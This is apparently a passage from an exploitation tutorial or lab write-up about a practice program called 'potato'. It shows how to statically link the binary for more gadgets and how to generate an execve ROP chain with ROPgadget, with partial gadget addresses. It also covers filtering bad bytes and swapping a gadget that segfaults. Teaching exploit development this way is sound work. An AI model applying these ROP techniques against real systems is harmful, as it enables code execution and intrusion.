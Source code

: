 The low number of gadgets is caused by the fact that libc is linked dynamically into the `potato` application,
i.e. `ROPgadget` cannot find any libc functions to take advantage of. This can be overcome by building `potato_rop` 
which links libc statically and by turns code optimizations on to -O2:

```makefile
...
DEBUG_OPTS=-ggdb3 -O2
...
potato: $(CFILES) $(HFILES)
	gcc -static -m32 $(CCOPTS) -o potato_rop $(CFILES) -Lopenssl  -lssl -lcrypto 
```

When running `ROPgadget --binary potato_rop --ropchain`, we get:

```
...
Unique gadgets found: 47334

ROP chain generation
===========================================================
...
#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<I', 0x0806970e) # pop edx ; pop ebx ; pop esi ; ret
p += pack('<I', 0x0811e040) # @ .data
...
p += pack('<I', 0x0804c6c2) # int 0x80
```

The generated ROP chain can not yet be used in `pwn_potato2.py`, some bytes in the ROP chain 
prevent the copying of the complete payload onto the stack, so to avoid their usage: 
`ROPgadget --binary potato_rop --ropchain --badbytes "00|09|0a|0c|0d"`.
This generates a ROP chain, which is copied completely, however the ROP chain still uses one gadget that
must be replaced:

```python
p += pack('<I', 0x080762b5) # inc eax ; pop es ; pop edi ; ret
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x41414141) # padding
```

This gadget is used to increment `eax`, however, the `pop es` causes a segfault. To find gadgets
which include the `inc eax` and `ret` commands:
`ROPgadget --binary potato_rop --ropchain --badbytes "00|09|0a|0c|0d" | grep "inc eax" | grep "ret"`

